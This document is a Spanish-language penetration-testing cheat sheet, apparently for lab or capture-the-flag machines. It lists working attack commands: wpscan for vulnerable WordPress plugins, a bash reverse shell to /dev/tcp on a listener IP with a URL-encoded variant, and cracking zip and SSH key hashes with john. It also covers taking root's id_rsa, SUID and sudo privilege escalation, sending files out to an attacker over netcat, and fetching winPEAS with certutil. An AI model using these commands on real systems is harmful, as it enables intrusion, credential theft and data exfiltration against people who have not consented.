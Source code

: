 ## Para analizar páginas web que estén creadas con wordpress podemos realizar estos dos comandos:

```
wpscan –url http://ip
```
## Y en caso de que no veamos nada vulnerable, podemos probar a buscar posibles plugins vulnerables:

```
wpscan --plugins-version-detection aggressive --url http://192.168.0.5/wordpress
```

## Opciones para crear una shell inversa:

[revshell](https://www.revshells.com/)

```
 “/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.0.4/1234 0>&1'”
 ```
 ## En caso de querer codificarla en url, podemos realizar el siguiente comando:
 ```
urlencode "/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.0.4/1234 0>&1'"
```

## Sacar hashes de ficheros zip:
```
zip2john muyconfidencial.zip > hash_muyconfidencial
```
## Para tener una mejor consola interactiva una vez hemos realizado nc -lvp 1234
```
SHELL=/bin/bash script -q /dev/null
Hacemos control +z
stty raw -echo && fg
escribimos reset
xterm
export TERM=xterm
```
(un máquina atacante usamos stty size para saber el tamaño de la terminal)
En la vicitma ejecutamos
```
stty rows x columns y
```
## Página donde ver como escalar privilegios con los binarios (sudo -l ):
[gtfobins](https://gtfobins.github.io/gtfobins/aws/#sudo)

## Visualizar todos los ficheros ordenados por directorios para ver los permisos:
```
ls -la /* | less
```
## Página donde se ven diferentes tipos de ataque:
[deephacking](https://deephacking.tech/)

## Ejemplo de uso para escalar priv con rutas absolutas:
```
sudo -u root /usr/bin/python3.11 /home/arasaka/randombase64.py
```
> **Nota:** pspy - Script que permite visualizar todos los procesos que se están ejecutando en el sistema sin ser root.

## Escalar priv por medio de SUID
Dar privilegios p.j 
/bin/bash u+s o (4777) 
Ejecutar el comando del ejemplo
bash -p 
> **Nota:** (la opción -p en bash (preserve privileges) le dice a Bash que mantenga los permisos de usuario efectivo). 

## Ejemplo de Búsqueda de Archivos SUID:
```
find / -perm -4000 -type f 2>/dev/null (para buscar ficheros) 
find / -perm -4000 2>/dev/null (para buscar directorios).
```
## Otro ejemplo pero con un editor como puede ser vim:
```
vim -c una vez dentro ejecutar: ':!/bin/sh'
```

## En algún supuesto caso de que tengamos posibilidad de ver ficheros como root sin serlo y necesitemos escalar a root, una de las posibilidades es entrar en:

> **Nota:** /root/.ssh/id_rsa y copiar la clave a nuestra máquina atacante para posteriormente hashear esa clave e intentar sacar la contraseña por el hash.
```
ssh2john ficherodondeguardamoslakey > salidaficherohasheado

john ficherohasheado –wordlist /usr/share/wordlist/rockyou
```
Para terminar, una vez obtengamos la contraseña nos podemos conectar desde la atacante usando el fichero con la clave privada
```
sudo ssh root@ip -i ficheroconlakey
```
Enviar ficheros por netcat (Victima)
```
nc -q 0 192.168.16.37 9999 < BurgerWithoutCheese.zip (atacante) nc -nvlp 9999 > BurgerWithoutCheese.zip
```

## Enviar el Archivo como Base64

```
base64 archivo.txt
base64 -d archivo_codificado.txt > archivo_recibido.txt
```

## Ver capacidades/capabilities/división de privilegios

```
getcap -r /
```

## Compartir ficheros con máquinas Windows:
```
certutil -urlcache -split -f http://192.168.200.3/winPEASx64.exe C:\Users\hacker\Documents\winpeas.exe
```


## Página donde ver ataque de fuerza bruta con hydra a diferentes tipos de login:
[Hydra Brute Force Login Attacks](https://www.manrajbansal.com/post/how-to-use-hydra-to-brute-force-login-forms)
